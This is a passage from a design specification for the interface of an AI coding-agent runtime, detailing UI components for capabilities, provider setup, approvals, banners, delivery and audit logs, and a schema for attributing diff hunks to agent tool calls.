**Accessibility.** Combobox (select-only) pattern with a `listbox`; group headings are `group` with `aria-label`; disabled options remain focusable and announce "not available: {reason}" (B05 §2.9). Selecting a disabled option with Enter does nothing and re-announces the reason.

**Tokens.** `elevation-2`, `color-tier-inside-bg` (B06, group header), `color-text-muted`, `text-sm-strong` (B06, headings), `mono-sm`, 32 px rows.

**Message keys.** `routing.picker.auto`, `routing.picker.group.inside`, `routing.picker.group.outside`, `routing.picker.harness_hint`, `routing.picker.pinNotAllowed`, `routing.picker.pinInvalidated`, `routing.picker.capability.{native,emulated,none}`, `routing.picker.free`, `routing.picker.price`, `routing.picker.prior`, `routing.reject.<reason_code>`.

### C-20 CapabilitySummaryChip

**Purpose.** The one-sentence summary of what agents can do in this session and what needs approval ("Agents can: read/write this repo, run build and test profiles; need approval for: installs, other commands, new network destinations, push", WRD-16 §3 step 2). Opens the ExplainDrawer in capabilities mode, which includes a `policy.explain` tester (WRD-08 §8, WRD-11 §2.6).

**Props.**

```ts
export interface CapabilitySummaryChipProps {
  text: string;                                // capabilities_summary.text
  can: string[];
  needsApproval: string[];
  sandbox: { level: SandboxLevel; backend: SandboxBackend | null };
  onOpen(): void;                              // ExplainDrawer {kind: 'capabilities'}
}
```

**States.** default (truncated at one line with full text in tooltip and accessible name), loading, unavailable (no session yet: WorkspaceRow falls back to the last known text).

**Data sources.** `rpc:session.open → result.capabilities_summary{text, can[], needs_approval[]}`; also `evt:session.open → payload.capabilities_summary` and `evt:session.resume` for replay; tester uses `rpc:policy.explain {tool, operation, resource, session_id}`.

**Update behaviour.** `session.open`, `session.resume`, `policy.reload` (system chain; triggers a re-fetch via `session.open` result cache or `policy.explain`, ASM A-17).

**Accessibility.** A `button`; accessible name is the full sentence.

**Tokens.** `color-surface-2`, `text-sm`, `radius-sm`.

### C-21 DoctorChecklist

**Purpose.** SCR-7 and ST-2: every prerequisite check (sandbox backend, keychain, providers, disk) with status and fix hints; blocking failures prevent starting work with no unsandboxed fallback (WRD-11 §3, WRD-16 §13 screen 7).

**Props.**

```ts
export interface DoctorCheckView {
  id: string;
  group: string;                               // e.g. sandbox, keychain, providers, disk
  status: 'ok' | 'warn' | 'fail';
  title: string;
  detail: string;
  fixHint: string | null;                      // may contain a command; rendered in mono with Copy
  blocking: boolean;
}
export interface DoctorChecklistProps {
  checks: DoctorCheckView[] | null;
  run: ActionPhase;
  lastRunAt: Iso8601 | null;
  onRun(): void;                               // -> system.doctor
  onCopyFix(checkId: string): void;
}
```

**States.** loading (first run), running (re-run; previous results stay visible, dimmed text label "Re-checking…"), all ok, warnings, blocking (group header "Blocking: agents cannot run until fixed"; ST-2 banner BN-01 elsewhere), error (RPC failure).

**Data sources.** `rpc:system.doctor → checks[]{id, group, status, title, detail, fix_hint, blocking}`.

**Update behaviour.** On mount, on user re-run, and automatically after `-32006 sandbox_unavailable` errors (B05 §11). Not event-driven.

**Accessibility.** Grouped lists with headings; each item's status is text ("Blocking", "Warning", "OK"); fix hints have a Copy button named "Copy fix command for {title}".

**Tokens.** `color-state-succeeded`, `color-state-waiting`, `color-state-failed`, `mono-sm`, `space-7` (B06, section separation).

**Message keys.** `doctor.title`, `doctor.run`, `doctor.running`, `doctor.status.{ok,warn,fail}`, `doctor.blocking`, `doctor.copyFix`, `doctor.lastRun`.

### C-22 ProviderCard

**Purpose.** SCR-6: one provider or harness with status, tier, protocol or harness kind, auth mode, billing, vendor-terms notice (harnesses), models, last test, and actions test, enable/disable, remove (WRD-16 §13 screen 6). Secrets are never shown; only the keychain reference.

**Anatomy.**

```
+ [server] company-vllm  [T1 Company-hosted]  openai-compatible · gateway (bearer)          OK · 212 ms +
|  Endpoint  llm.your-vps.example                                                                   |
|  Credential  stored in keychain (secret://providers/company-vllm/token)                           |
|  Billing   organization-internal · cost not tracked                                                |
|  Models    company/qwen-coder-32b  native tools · 32k       Admissible for: public, internal, confidential |
|  [Test] [Disable] [Remove]                                       CLI: warden provider test company-vllm |
+----------------------------------------------------------------------------------------------------+
+ [plug] copilot  [T4 Subscription]  copilot-sdk · split mode                                   Enabled +
|  Terms  Permitted by the vendor; billed as premium requests on your subscription.                  |
|  Admissible for: public, internal (never confidential)                                             |
```

**Props.**

```ts
export interface ProviderCardProps {
  kind: 'provider' | 'harness';
  id: string;
  tier: Tier;
  protocol: Protocol | null;
  harnessKind: HarnessKind | null;
  runMode: HarnessRunMode | null;
  endpointHost: string | null;                 // host of base_url only
  auth: { mode: AuthMode; gatewayKind: GatewayKind | null; header: 'api-key' | null;
          secretRef: string | null; credentialPresent: boolean } | null;
  billing: string;                             // catalog billing: per_token | none | gateway | subscription | subscription_personal | chatgpt_login | api_key
  vendorTerms: VendorTerms | null;
  sharedModeLocked: boolean;                   // claude-code in shared mode (CF-21)
  enabled: boolean;
  status: 'ok' | 'untested' | 'failing' | 'disabled' | 'locked' | 'credential_missing' | 'prohibited';
  lastTest: { ok: boolean; latencyMs: number | null; at: Iso8601; error: ModelErrorCode | null;
              models: { modelId: string; toolCalling: 'native' | 'emulated' | 'none'; structuredOutput: boolean;
                        streaming: boolean; maxContext: number }[] } | null;
  admissibleFor: Classification[];             // from tier and PoC admission
  actions: { test: ActionPhase; enable: ActionPhase; remove: ActionPhase };
  onTest(): void;                              // -> provider.test {provider_id}
  onEnable(enabled: boolean, acknowledgeTerms: boolean): void;   // -> provider.enable
  onRemove(): void;                            // confirm dialog -> provider.remove {provider_id, confirm:true}
}
```

**Vendor-terms notice** (harnesses; B07 owns text): `permitted` → info (`provider.terms.permitted`); `tolerated` → warning plus "Approval required at session start (rule user.harness-tolerated)" (`provider.terms.tolerated`, CF-03); `personal_use_only` → warning "Personal mode only on this machine; unavailable in shared mode" and, when `sharedModeLocked`, status `locked` with reason `harness_locked_shared_mode` (`provider.terms.personalUseOnly`, `provider.locked.shared`, CF-21); `prohibited` → cannot be enabled, the enable control is `aria-disabled` with `provider.terms.prohibited` (INV-7).

**States.** ok, untested, testing (`Sending…` on Test; result replaces `lastTest` on RPC result and `provider.configured(action: test)` event), failing (error code mapped per B05 §11 with the WRD-05 code shown), disabled, locked, credential missing (action "Add credential" opens SetupWizard at the matching path), prohibited, enabling with terms acknowledgement (inline checkbox "I have read the vendor terms" required for tolerated and personal_use_only before Enable becomes available), removing (confirm dialog).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| list | `rpc:provider.list → providers[], harnesses[]` with `status`, `tier`, `auth_mode`/`billing`, `vendor_terms`, `last_test` | |
| `lastTest` | `rpc:provider.test → result.{ok, latency_ms, models[], error}` and `evt:provider.configured → payload.{action = 'test', result}` | |
| `auth.secretRef` | `evt:provider.configured → payload.secret_ref` or `provider.list` entry | value never available to the UI (BI-3) |
| `admissibleFor` | tier → classifications per PoC admission (core §3): T0 to T2 all three; T3, T4 public and internal | static table mirrored from `routing.admission` (ASM A-18) |
| `sharedModeLocked` | `rpc:system.hello → result.mode = 'shared'` and `vendor_terms = 'personal_use_only'` | |

**Update behaviour.** `provider.configured` (system chain), RPC results.

**Accessibility.** `article` with heading; status is text; actions have names including the provider id; the terms notice is a `note` region read before the Enable control.

**Tokens.** `color-tier-*`, `color-effect-approval` (warning notices), `color-state-*`, `mono-sm`, `space-4`, `radius-md`.

**Message keys.** `provider.status.<status>`, `provider.auth.<mode>`, `provider.auth.gateway.<kind>`, `provider.credentialStored`, `provider.billing.<billing>`, `provider.terms.{permitted,tolerated,personalUseOnly,prohibited}`, `provider.terms.acknowledge`, `provider.locked.shared`, `provider.admissibleFor`, `provider.test`, `provider.enable`, `provider.disable`, `provider.remove`, `provider.remove.confirm`.

### C-23 SetupWizard

**Purpose.** ST-1 guided setup with four paths (CF-36): API key, local model, company-hosted endpoint (token or certificate), subscription harness. Each path ends with a capability probe (`provider.test`) and a visible tier.

**Anatomy.** Step 1 path chooser (four cards, each with tier and one-line consequence, e.g. "Company-hosted endpoint · T1 · admissible for confidential data"); step 2 path form; step 3 test result with detected models and capabilities; step 4 done (with "Open a workspace").

**Props.**

```ts
export type SetupPath = 'api_key' | 'local' | 'company' | 'harness';
export interface SetupWizardProps {
  step: 1 | 2 | 3 | 4;
  path: SetupPath | null;
  form:
    | { path: 'api_key'; providerId: 'anthropic' | 'openai' | 'azure-openai'; baseUrl: string | null; apiKey: string }
    | { path: 'local'; candidates: { providerId: 'ollama' | 'lmstudio'; baseUrl: string; detected: boolean | null }[] }
    | { path: 'company'; providerId: string; baseUrl: string; tier: 'T1' | 'T2';
        auth: { kind: 'bearer'; token: string } | { kind: 'mtls'; certPath: string; keyPath: string } }
    | { path: 'harness'; harnessId: 'copilot' | 'codex' | 'claude-code'; acknowledgeTerms: boolean; vendorTerms: VendorTerms }
    | null;
  fieldErrors: Record<string, MessageKey>;
  submit: ActionPhase;
  test: { ok: boolean; latencyMs: number | null; models: { modelId: string; toolCalling: string; maxContext: number }[];
          error: ModelErrorCode | null } | null;
  onChoosePath(path: SetupPath): void;
  onChange(form: SetupWizardProps['form']): void;
  onDetectLocal(): void;                       // -> provider.test on catalog ids ollama, lmstudio (ASM A-19)
  onSubmit(): void;                            // -> provider.add {spec, secret?|secret_files?, confirm:true} or provider.enable
  onBack(): void;
  onFinish(): void;
}
```

**States.** per step; submitting (`Sending…`), test failed (error mapped from WRD-05 code with the fix, e.g. `auth_failed` → "Token rejected by the endpoint"; retry keeps the form), terms not acknowledged (harness path, Enable `aria-disabled`), prohibited (not offered), shared-mode lock (claude-code option shown disabled with reason).

**Data sources.** `rpc:provider.add → result.{provider_id, test}`; `rpc:provider.test`; `rpc:provider.enable → result.{enabled, vendor_terms}`; `rpc:provider.list` for existing entries; `evt:provider.configured` (system chain) as confirmation.

**Secret handling (BI-3).** The API key or token field is `type="password"`, `autocomplete="off"`, paste allowed (SC 3.3.8); the value lives only in component state until `provider.add` returns, then is cleared from memory; it is never logged, stored in local storage, or echoed (the result shows only `secret_ref`). For mTLS the user picks file paths; the daemon reads and stores them in the keychain (`secret_files`).

**Accessibility.** Each step is a `form` with a heading and step indicator text ("Step 2 of 4"); path cards are a `radiogroup`; errors are linked to fields; focus moves to the step heading on step change (user-initiated).

**Tokens.** `radius-lg`, `space-6`, `space-8`, `text-xl`, `text-md`, `color-tier-*`.

**Message keys.** `setup.title`, `setup.step`, `setup.path.{api_key,local,company,harness}`, `setup.path.<path>.consequence`, `setup.field.<name>`, `setup.detect`, `setup.test.ok`, `setup.test.failed.<model_error_code>`, `setup.secretHelp`, `setup.done`, `provider.terms.*`.

### C-24 Banner

**Purpose.** Persistent, app- or session-level conditions that block or qualify work (not transient feedback, which uses toasts per B05 §11.1). Banners are never used for approvals.

**Props.**

```ts
export interface BannerProps {
  id: 'BN-01' | 'BN-02' | 'BN-03' | 'BN-04' | 'BN-05' | 'BN-06' | 'BN-07' | 'BN-08' | 'BN-09' | 'BN-10' | 'BN-11';
  severity: 'info' | 'warning' | 'error' | 'blocking';
  titleKey: MessageKey;
  bodyKey: MessageKey;
  args?: Record<string, string | number>;
  actions: { labelKey: MessageKey; onAction(): void; cli?: string }[];
  dismissible: boolean;                        // false for warning/error/blocking
  sinceSeq: Seq | null;
}
```

**Catalogue.**

| Id | Condition (state) | Severity | Trigger (source) | Actions | Clears on |
|---|---|---|---|---|---|
| BN-01 | Sandbox prerequisites missing (ST-2) | blocking | `rpc:system.doctor` blocking fail, or any RPC error `-32006` | Open Doctor, Re-check | doctor all blocking ok |
| BN-02 | Session budget exhausted (ST-4) | error | `evt:task.state → payload.reason = 'budget'`, RPC `-32008` | Raise limit (session.setBudget), Open cost | `evt:budget.changed` |
| BN-03 | Chain verification failed (ST-6) | error | `rpc:audit.verify → ok = false` | View violations (EventLog), Export anyway (with warning) | a later verify ok |
| BN-04 | Runtime connection lost | warning | transport `reconnecting` longer than B05 T-RECONNECT-BANNER | Retry now | transport `connected` |
| BN-05 | Runtime cannot write its audit log | blocking | RPC `-32009 store_unavailable` | Open Doctor | successful RPC after re-check |
| BN-06 | Unauthorized or protocol mismatch | blocking (full content) | RPC `-32001`, `-32011`, `system.hello` failure | Restart runtime (desktop-started daemon), Show versions | reconnect with valid hello |
| BN-07 | Shared mode | info | `system.hello → mode = 'shared'` | none | never (persistent info chip after first dismissal) |
| BN-08 | Classification loosened | info | `evt:workspace.classification` with `to` less strict than `from` | View affected sessions | dismiss |
| BN-09 | No provider configured (ST-1) | warning | `rpc:provider.list` has no usable entry | Set up a provider (SetupWizard) | provider added |
| BN-10 | Cancel not confirmed | error | no `task.state(cancelled)` within B05 T-CANCEL-FAIL | Retry cancel, Open Doctor | `task.state(cancelled)` |
| BN-11 | Task paused: no admissible model or provider failed (ST-3) | warning | `evt:task.state → payload.to = 'waiting_for_input'` with reason `no_admissible_model` or `provider`; the offered model from C-07 `continueOn` | "Continue on {model} ({tier})" (`session.setPin`, ID-04/ID-16), Configure provider, Change classification | `task.state → running` (the runtime also re-routes after `provider.configured` ok, a classification change or a circuit closing) |

**States.** severity variants; stacked (max 3 visible, "+n more" disclosure); actions pending.

**Accessibility.** `blocking` and `error` banners use `role="alert"` when they first appear (announced once); `warning` and `info` use `role="status"`. Banners never take focus. Dismiss buttons have names including the banner title.

**Tokens.** `radius-lg`, `color-effect-deny-bg` (B06; ST-6), `color-effect-approval-bg` (warning), `color-surface-2` (info), `text-md`, icons per severity.

### C-25 ExplainDrawer

**Purpose.** The details disclosure behind every one-line explanation (WRD-11 principle 3): a policy decision, an approval, a routing decision, the capability summary, or a classification. It shows the one-line reason first, then matched rules with their layers, obligations, the evidence events (ids and seqs), and the CLI equivalent.

**Props.**

```ts
export type ExplainSubject =
  | { kind: 'policy'; decisionId: string }
  | { kind: 'approval'; approvalId: string }
  | { kind: 'routing'; routingId: string }
  | { kind: 'capabilities' }
  | { kind: 'classification'; classification: Classification };
export interface ExplainDrawerProps {
  subject: ExplainSubject;
  oneLine: string;                             // runtime-authored reason or explanation
  recorded: {                                  // what was decided at the time (from events)
    effect?: Effect; matchedRules?: string[]; obligations?: Record<string, unknown>;
    resolvedByApproval?: string | null; cacheHit?: boolean; evidence: { type: string; seq: Seq; id: string }[];
  };
  current: {                                   // policy.explain evaluated now (may differ)
    state: 'idle' | 'loading' | 'ready' | 'error';
    layers: { layer: string; ruleId: string; effect: Effect }[];
  } | null;
  routing: RoutingLineProps | null;            // routing subject: full candidate table
  tester: { tool: string; operation: string; resource: string; result: { effect: Effect; reason: string } | null } | null;
  cli: string;
  invokerId: string;                           // element to return focus to
  onClose(): void;
  onRunTester(input: { tool: string; operation: string; resource: string }): void;   // -> policy.explain
}
```

**States.** loading `current`, ready, "differs from recorded" (when the current evaluation differs from the recorded decision, e.g. after a grant or revoke: note `explain.differs`), error.

**Data sources.**

| Subject | Recorded fields | Current evaluation |
|---|---|---|
| policy | `evt:policy.decision → payload.{effect, reason, matched_rules, obligations, resolved_by_approval, cache_hit, action}` | `rpc:policy.explain {tool: action.tool, operation: action.operation, resource: action.resource, session_id} → layers[]` |
| approval | `evt:approval.requested → payload.*`; `evt:approval.resolved`; the CF-40 follow-up `evt:policy.decision` with `resolved_by_approval` | as policy, for the approval's decision |
| routing | `evt:routing.decision → payload.*` (all candidates), `evt:routing.fallback` | none (routing is not re-evaluated; the ModelPicker shows current admissibility) |
| capabilities | `rpc:session.open → capabilities_summary{text, can[], needs_approval[]}`; `rpc:policy.list → layers[]` | tester: `rpc:policy.explain` |
| classification | admission table (C-22 `admissibleFor`), `evt:workspace.classification` history | `rpc:provider.models` admissibility |

**Accessibility.** Non-modal drawer rendered over the ContextPanel region: a `complementary` region with a heading; focus moves to the heading on open (user action) and returns to `invokerId` on Esc or Close (B05 §3.1 F-5, §3.2). It does not trap focus; Tab continues into the drawer content, and Shift+Tab from the heading returns to the ContextPanel.

**Tokens.** `elevation-3`, `radius-lg`, `color-surface-1`, `mono-sm` (rule ids, ids), `motion-slow` (reduced: opacity only).

**Message keys.** `explain.title.<kind>`, `explain.recorded`, `explain.current`, `explain.differs`, `explain.layer.<layer>`, `explain.obligations`, `explain.evidence`, `explain.cli`, `explain.tester.*`.

### C-26 DeliveryBar

**Purpose.** Delivery actions on a finished run (ID-02): Apply to branch, Commit (squash on the session branch and publish the branch, ID-03), Push (always an R5 approval with scope `once`, only after a commit or applied branch), Export patch, and Iterate (WRD-16 §13 screen 5, core §13.9, §15 ID-01 to ID-03). It renders inside the G2 GateBar in the review panel. While G2 is still open, a delivery action accepts the result first (the run ends `succeeded`), then delivers. In the CF-24 read-only result it offers only Export patch and Iterate; after G2 discard (`cancelled(rejected)`) only Iterate.

**Anatomy.**

```
[git-branch Apply to branch…] [git-commit-horizontal Commit…] [upload Push…] [download Export patch] [repeat Iterate]
Status line: Committed 3f9c2e1 on warden/01jaxr… · Push pending approval (below)
<ApprovalCard kind='push' when a push approval is pending>
```

**Props.**

```ts
export interface DeliveryActionView extends ActionAvailability {
  action: DeliveryAction | 'iterate';
  phase: ActionPhase;
  result: { commit?: string; branch?: string; patchPath?: string; remote?: string } | null;
  done: boolean;
}
export interface DeliveryBarProps {
  runId: string;
  gateOpen: boolean;                           // G2 unresolved: an action resolves the gate (approve, run ends succeeded) then delivers (ID-01, B05 §7.5)
  runOutcome: 'succeeded' | 'failed_verification' | 'discarded' | 'cancelled' | null;   // null while G2 open
  actions: DeliveryActionView[];               // fixed order: apply_branch, commit, push, export_patch, iterate
  pushApproval: ApprovalCardProps | null;
  dialog: null
    | { kind: 'apply_branch'; branchName: string; error: MessageKey | null }
    | { kind: 'commit'; message: string; branchName: string; error: MessageKey | null }   // commit publishes the branch (ID-03)
    | { kind: 'push'; remote: string; remotes: string[]; branchName: string };
  onOpenDialog(kind: 'apply_branch' | 'commit' | 'push'): void;
  onConfirm(): void;                           // -> [workflow.resolveGate approve if gateOpen] -> workflow.deliver {run_id, action, branch_name?, message?, remote?}
  onExportPatch(): void;                       // -> workflow.deliver {run_id, action:'export_patch'}
  onIterate(): void;
  onCloseDialog(): void;
}
```

Availability rules: `apply_branch`, `commit`, `push` require `runOutcome = 'succeeded'` or `gateOpen`; `push` additionally requires a `workflow.delivered` with action `commit` or `apply_branch` in the same session (ID-03; otherwise `aria-disabled` with `delivery.push.needsCommit`, and `-32003 invalid_state` maps to the same text); `export_patch` requires `runOutcome ∈ {succeeded, failed_verification}` or `gateOpen` (ID-02); nothing is deliverable after `discarded` or `cancelled`; `iterate` is always available. Every delivery is a policy-checked host action (ID-02): `policy.decision` → `tool.exec.start(executor: host)` → `tool.exec.end` → `workflow.delivered`. Push is never one-click: dialog (remote, branch) → `workflow.deliver(push)` → result `approval_pending` + `approval_id` → ApprovalCard `kind: 'push'` with only `once` enabled → approve → `policy.decision(allow, resolved_by_approval)` → `tool.exec.start/end` for `git.push` → `workflow.delivered(push)`.

**States.** idle, dialog open, sending, awaiting push approval, push running, done per action (result line with commit sha, branch, patch path; patch path has "Reveal in folder"), error per action (inline in the status line), confirming (RPC `done` received, waiting for `workflow.delivered`), rejected push (status "Push rejected; nothing was sent. The commit stays on {branch}.", the demo's step 6 ending; Push enabled again), unavailable after discard (`delivery.unavailable_discarded`).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| action results | `evt:workflow.delivered → payload.{run_id, action, commit, branch, remote, patch_path, approval_id}` (NEW event, ID-02); on load `rpc:workflow.get → deliveries[]` | success shown only on the event; `rpc:workflow.deliver → result.status` (`done` / `approval_pending`) only moves the control to confirming or opens the push approval |
| push approval | `evt:approval.requested` with `payload.approval_id = result.approval_id` (pattern `git`/`push`, `risk_class = 'R5'`, `scope_max = 'once'`) | C-11 |
| delivery execution | `evt:policy.decision` (actor `user`) → `evt:tool.exec.start/end → payload.{tool ∈ {git.apply_branch, git.commit, git.export_patch, git.push}, executor = 'host', ok, exit_code, error}` | failure shown inline from `tool.exec.end.error` |
| `gateOpen`, `runOutcome` | `evt:workflow.gate.resolved` (gate-final), `evt:workflow.end → payload.{status, reason}` | `succeeded`; `failed` + `verification`; `cancelled` + `rejected` → discarded |
| remotes | `rpc:workflow.get → repository.remotes[]` (ID-13) | default `origin` |
| commit message default | `final-result.summary` via `rpc:artifact.read` | prefilled, editable |

**Accessibility.** `toolbar` with roving focus; dialogs are modal (`role="dialog"`, focus trapped with Esc to close, focus returns to the invoking button); results are announced politely (B05 §12.4).

**Tokens.** 32 px buttons (B06 §6.2), `color-effect-approval` (push pending), `color-state-succeeded` (done), `mono-sm` (sha, branch, path).

**Message keys.** B07: `delivery.apply_branch`, `delivery.commit`, `delivery.push`, `delivery.export_patch`, `delivery.push_needs_approval`, `delivery.unavailable_failed`, `delivery.done.<action>`, `delivery.push_rejected`, `confirm.apply_branch`, `confirm.apply_branch.exists`, `confirm.commit`, `confirm.push`, `confirm.export_patch`, `gate.g2.iterate`. NEW for B07: `delivery.push.needsCommit`, `delivery.error.<action>`, `delivery.acceptAnd.<action>`, `delivery.unavailable_discarded`, `delivery.confirming`.

### C-27 EventLog

**Purpose.** SCR-7 audit view (WRD-11 §2.5): the event stream of a session with filters by family (policy, tool, model, approval, routing, sandbox, proxy, task, artifact), chain verification with violations, and export. It is the raw truth behind every other component.

**Props.**

```ts
export type EventFamily = 'session' | 'workflow' | 'task' | 'routing' | 'model' | 'context' | 'policy' | 'approval'
  | 'tool' | 'sandbox' | 'proxy' | 'secret' | 'artifact' | 'worktree' | 'harness' | 'chain' | 'budget';
export interface EventRowView {
  seq: Seq; id: string; ts: Iso8601; type: string; chain: string;
  actor: { kind: string; name: string };
  taskKey: TaskKey | null;
  summary: string;                             // derived one-liner per type
  hashPrefix: string;                          // first 12 hex of hash
  redactions: Redactions;
  violation: { kind: string; detail: string } | null;
}
export interface EventLogProps {
  sessionId: string;
  rows: EventRowView[];                        // virtualized, ascending seq
  filters: { families: EventFamily[]; text: string; taskId: string | null };
  hasMore: boolean;
  verify: { phase: ActionPhase; result: { ok: boolean; chainOk: boolean; strictOk: boolean; checkpointOk: boolean;
            events: number; violations: { seq: Seq; kind: string; detail: string }[] } | null };
  exportState: { phase: ActionPhase; result: { path: string; events: number; artifacts: number; sha256: string } | null };
  selectedSeq: Seq | null;
  onFilterChange(filters: EventLogProps['filters']): void;
  onLoadMore(): void;                          // -> event.query {session_id, after_seq, limit: 500, types?}
  onVerify(strict: boolean): void;             // -> audit.verify {session_id, strict}
  onExport(withBlobs: boolean): void;          // -> audit.export {session_id, with_blobs}
  onSelect(seq: Seq): void;                    // shows the full envelope (redacted) in the ContextPanel
}
```

**States.** loading, paging, filtered empty, verifying, verified, failed (violating rows flagged with `link-2-off` and the kind; BN-03 banner), exporting, exported (path + sha256 with Copy and Reveal), export with failed chain (confirmation "Export anyway" with warning text, WRD-11 §3).

**Data sources.** `rpc:event.query {session_id, after_seq, limit, types?} → events[], next_seq`; live `event` notifications from `event.subscribe`; `rpc:audit.verify → result.{ok, chain_ok, strict_ok, checkpoint_ok, events, violations[]}`; `rpc:audit.export → result.{path, events, artifacts, sha256}`. Filters map families to type prefixes (`policy.*`, `tool.*`, …) and are sent as `types` to `event.query`.

**Update behaviour.** Appends live events matching the filters; never reorders.

**Accessibility.** `grid` with column headers (seq, time, type, actor, task, summary, hash), row navigation with arrow keys and J/K (B05 §2.10); filter controls are checkboxes in a `group`; verify results are announced (B05 §12.4).

**Tokens.** `mono-sm`, `text-sm`, `color-state-failed` (violations), 32 px table rows.

**Message keys.** `events.title`, `events.filter.<family>`, `events.search`, `events.column.*`, `events.verify`, `events.verify.strict`, `events.verify.ok`, `events.verify.failed`, `events.export`, `events.export.done`, `events.export.withFailedChain`, `events.loadMore`, `events.empty`.

## 5. Hunk-to-task provenance (NEW `code-diff` metadata)

WRD-16 §13 requires "a diff viewer that links a hunk to the task and step that produced it". WRD-09 §5 provenance is per artifact (one `task_id`, a tool-call count), which cannot answer "which call wrote these lines" for a cumulative diff that spans implement and repair (CF-26). This section defines the per-hunk provenance the runtime attaches to every `code-diff` artifact and how the UI consumes it. The field is NEW and must be adopted by A04 (artifact record and `code-diff` schema) and computed by the owners of A10/A13/A14.

### 5.1 Terms

- **Write-effecting call**: a tool call that can change worktree content: `fs.write`, `fs.patch` (sandbox executor), `proc.exec` (side effects such as `npm install` rewriting `package-lock.json`), and harness-native edit tools in co-located harnesses (`executor: harness`, CF-22).
- **Contributor**: the tuple `(task_id, task_key, execution_id, step, call_id, tool)` of a write-effecting call.
- **Final hunk**: a hunk of the artifact's unified diff from `base_commit` (the session base, CF-26) to `head_commit`.

### 5.2 Metadata shape (A04 §7.3 as extended by core §15 ID-11)

A04 §7.3 already defines the per-hunk location: `code-diff` metadata `files[].hunks[]{index, old_start, old_lines, new_start, new_lines, header, provenance}` with `provenance{task_key, task_id, step, call_id}` or null. The brief also requires `execution_id`, and multi-contributor hunks need more than one owner. Core §15 ID-11 adopts these additive properties on A04's `provenance` object (A04 is aligning); existing A04 fields are unchanged.

```json
{
  "$schema": "https://json-schema.org/draft/2020-12/schema",
  "$id": "https://schemas.warden.dev/poc/artifacts/code-diff-hunk-provenance.v1.json",
  "title": "code-diff files[].hunks[].provenance, A04 §7.3 object extended (NEW properties marked)",
  "type": "object",
  "required": ["task_key", "task_id", "step", "call_id", "execution_id", "attribution"],
  "additionalProperties": false,
  "properties": {
    "task_key":      { "type": "string", "description": "A04" },
    "task_id":       { "type": "string", "pattern": "^tsk_", "description": "A04" },
    "step":          { "type": ["integer", "null"], "minimum": 1, "description": "A04; agent-loop step of the model call that proposed call_id" },
    "call_id":       { "type": ["string", "null"], "pattern": "^call_", "description": "A04; null when attribution is task" },
    "execution_id":  { "type": ["string", "null"], "pattern": "^exe_", "description": "NEW; required by the brief" },
    "tool":          { "type": ["string", "null"], "description": "NEW; fs.write | fs.patch | proc.exec | harness tool name" },
    "model_call_id": { "type": ["string", "null"], "pattern": "^mc_", "description": "NEW; model call whose response proposed call_id" },
    "attribution":   { "enum": ["call", "task"], "description": "NEW; call = step and call known; task = checkpoint-level only (A04 source 1)" },
    "contributors":  {
      "description": "NEW; all owners of the hunk's changed lines when more than one call contributed",
      "type": "array", "maxItems": 20,
      "items": { "type": "object", "required": ["task_id", "task_key", "execution_id", "step", "call_id", "lines"],
        "additionalProperties": false,
        "properties": {
          "task_id": { "type": "string" }, "task_key": { "type": "string" }, "execution_id": { "type": ["string", "null"] },
          "step": { "type": ["integer", "null"] }, "call_id": { "type": ["string", "null"] }, "tool": { "type": ["string", "null"] },
          "lines": { "type": "integer", "minimum": 0, "description": "changed lines of this hunk owned by the contributor" } } } }
  }
}
```

A null `provenance` (A04) means unattributed. The top-level fields describe the **primary** contributor: the one owning most changed lines of the hunk (ties go to the latest call), which refines A04's "latest step among the added lines" rule so that a one-line touch-up in repair does not relabel a hunk that implement wrote. `contributors` is omitted when there is a single owner.

Example (demo T1 after repair, `code-diff` v2 superseding v1), the second hunk of `src/routes/users.ts`:

```json
{ "index": 1, "old_start": 40, "old_lines": 3, "new_start": 58, "new_lines": 7, "header": "@@ -40,3 +58,7 @@",
  "provenance": { "task_key": "repair-1", "task_id": "tsk_01JB…R", "step": 3, "call_id": "call_77",
    "execution_id": "exe_01JB…Q", "tool": "fs.patch", "model_call_id": "mc_01JB…", "attribution": "call",
    "contributors": [
      { "task_id": "tsk_01JB…R", "task_key": "repair-1", "execution_id": "exe_01JB…Q", "step": 3, "call_id": "call_77", "tool": "fs.patch", "lines": 4 },
      { "task_id": "tsk_01JB…I", "task_key": "implement", "execution_id": "exe_01JB…M", "step": 14, "call_id": "call_31b", "tool": "fs.patch", "lines": 1 } ] } }
```

### 5.3 Computation in the runtime (A04 §7.5 authoritative; additions for A10, A13, A14)

A04 §7.5 specifies two sources: task level from checkpoint commits (always available) and call level from an in-memory line-origin map in `internal/agentloop` (best effort). The flow below is that algorithm with four additions this file needs: attribution of `proc.exec` and co-located harness edits, tombstones for deletion-only hunks, `contributors[]` with a majority primary, and persisting the line-origin map with the session so that a daemon restart does not lose call-level attribution (adopted by ID-11: the per-call write log is persisted at `~/.warden/sessions/<ulid>/attrib/<task_key>.jsonl`).



The ledger is a per-file array mapping each current line of a worktree file to the contributor that last inserted or modified it (base lines map to `base`). It is updated after every successful write-effecting call by a line diff (Myers) of the file's pre-image and post-image: inserted and replaced lines take the call's contributor, unchanged lines keep their owner, deleted lines are removed and leave a tombstone on the next surviving line so that pure-deletion hunks can be attributed. For `fs.write` and `fs.patch` both images are known to the daemon (it sent the content or patch through `exec.fs.write`/`exec.fs.patch`). For `proc.exec` and co-located harness tools the daemon detects files changed since the last snapshot after `tool.exec.end` (or the harness `post_tool_use` hook) and attributes their changed lines to that call. At `code-diff` creation the final hunks are computed from `base_commit` to `head_commit`, and each hunk's contributors are the owners of its post-image lines and tombstones. When the ledger has a gap (it is persisted per ID-11, so this happens only if the log is missing or corrupt), the checkpoint commits of core §13.9 (`gate-plan`, end of implement, end of repair) give task-level attribution. Attribution is computed on the final hunks, so hunk boundaries in the metadata always match the diff that `artifact.read` returns.

Edge cases:

| Case | Rule |
|---|---|
| `fs.write` rewrites a whole file with mostly identical content | Only lines that differ take the new owner (line diff, not whole-file ownership) |
| Rename | `file` is the new path; ledger entries move with the rename detected by git |
| Binary file | One pseudo-hunk (`index 0`, header `@@ binary @@`), owner = last call that changed the file |
| `package-lock.json` changed by `npm install` | Owner = the `proc.exec` call (`tool: "proc.exec"`); DiffViewer collapses lockfiles by default |
| Redacted content (core §13.16) | Hunks are computed on the stored (redacted) diff; attribution is unaffected |
| Cancelled task (partial diff) | Same algorithm on the partial checkpoint; artifact has `partial: true` |
| Agent `git.commit` inside the session | Does not change content; not a contributor |
| Harness in split mode (Copilot) | Tool calls run through `warden-exec`; identical to `fs.*` |

### 5.4 Deriving `step` when absent

